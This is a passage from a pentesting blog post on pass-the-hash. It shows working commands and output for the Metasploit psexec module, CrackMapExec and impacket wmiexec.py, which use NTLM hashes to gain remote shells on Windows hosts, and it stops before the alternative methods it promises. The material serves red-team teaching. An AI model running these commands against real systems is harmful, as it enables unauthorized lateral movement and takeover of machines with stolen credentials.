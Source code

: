 

##
#
https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
#
##

Alternative ways to Pass the Hash (PtH)
 December 13, 2020 n00py  PentestingPost Exploitation  0 Comment
Do you remember the first time you passed the hash?  It probably went a little something like this:

1
2
3
4
5
6
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
SMBPass => e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
[*] Sending stage (719360 bytes)
[*] Meterpreter session 1 opened (192.168.57.133:443 -> 192.168.57.131:1045)
If you are unfamiliar, that is the Metasploit PSexec module being used.

Well, nowadays we don’t really do that anymore.  You probably pass the hash something like this:

1
2
3
cme smb 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79  -d domain.local
SMB         10.0.0.20     445    PC01      [*] Windows Server 2012 R2 Standard 9600 x64 (name:PC01) (domain:domain.local) (signing:False) (SMBv1:True)
SMB         10.0.0.20     445    PC01       [+] domain.local\user BD1C6503987F8FF006296118F359FA79 (Pwn3d!)
That is CrackMapExec being used to pass the hash.  As you may already know, CrackMapExec under the hood is mostly impacket. The default execution method is using wmiexec.py, which can be ran standalone with impacket using the following syntax:

1
2
3
4
5
wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
You will find that basically all of impacket’s example scripts allow you to pass the hash.

What I want to talk about next is ways to pass the hash that might be new to you.

